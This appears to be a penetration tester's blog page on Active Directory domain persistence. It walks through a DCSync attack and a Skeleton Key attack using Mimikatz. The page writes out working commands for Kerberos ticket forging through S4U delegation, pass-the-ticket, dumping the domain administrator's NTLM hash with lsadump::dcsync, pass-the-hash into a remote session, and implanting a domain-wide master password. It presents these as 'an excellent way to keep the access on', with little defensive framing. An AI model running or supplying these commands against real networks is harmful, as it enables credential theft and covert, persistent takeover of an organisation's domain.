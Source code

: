 ```yaml
---
title: "Active Directory - Persistence Domain"
tags: [Metodologies]
categories: ActiveDirectory
mermaid: true
image: https://www.safesystems.com/wp-content/uploads/2020/04/Microsofts-LDAP-Security-Update-and-the-Impact-on-Financial-Institutions-Today-Header-Blog-Image.png
---
```


# Active Directory - Persistence Domain

Here you will find some commands to explore Active Directory.

Commands linked to Persistence on the Domain. An excellent way to keep the access on.

Hope you enjoy.

# Summary

- [Active Directory - Persistence Domain](#active-directory---persistence-domain)
- [Summary](#summary)
- [Initial Consideration](#initial-consideration)
- [DCSYnc](#dcsync)
- [Skeleton Key](#skeleton-key)

![](https://0x4rt3mis.github.io/assets/img/active-enum/persistencia.png)

# Initial Consideration

Here, we will cover two techniques that are widely used when it comes to persistence in Active Directory environments, the `DCSync` attack and the `Skeleton Key`

It is important to note that we must have Domain Controller access to perform these attacks, as they are tied to post-exploitation.

# DCSYnc

With the DCSync attack we will have access to the DC Administrator's hash and consequently the machine through the PTH

The idea is similar to Constrained Delegation, but we are going to generate tickets to LDAP and through this generated ticket get the administrator's hash!

We generate the ticket to LDAP and inject it

```ps1
tgt::ask /user:dbservice /domain:DOMÍNIO /ntlm:HASH_DO_DBSERVICE /ticket:dbservice.kirbi
tgs::s4u /tgt:TGT_dbservice@XXXX_krbtgt~XXXX@XXXX.kirbi /user:Administrator@XXXX /service:time/XXXXX.local|ldap/XXXX.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@XXXX@XXXX_ldap~XXXX@XXXX_ALT.kirbi"'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/persistencia1.png)

Now we execute the DCSync attack and extract the admin hash

```ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:usfun\Administrator"'
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/persistencia2.png)

With th hash it's easier to make a PTH and get access to DC

```ps1
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:XXXXXX /ntlm:hash_administrator_dc /run:powershell.exe"'
Enter-PSSession -ComputerName dc
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/persistencia3.png)

This was the `DCSync` attack, from Constrained Delegation we were able to generate tickets to LDAP and thus extract the ntlm hash of the administrator of the DC!

# Skeleton Key

The next attack is called `Skeleton Key`, it has that name because it will allow us to access any machine in the domain with a master password, once we take control of the DC.

Note that here it is necessary to be already inside the machine, so executing this attack after a DCSync, for example

After taking control of the DC, with a reverse shell anyway.

We "download" the mimikatz to the machine `MUST BE THE .EXE` and execute the attack

```ps1
privilege::debug
misc::skeleton
```

![](https://0x4rt3mis.github.io/assets/img/active-enum/esc.png)

Ready! Done! We now accept any machine in the domain with the `mimikatz` credential

![](https://0x4rt3mis.github.io/assets/img/active-enum/esc1.png)

It is important to point out that this attack can only be done once, so if when you try to do it, it may be wrong, it may be that someone else has already performed it in the domain.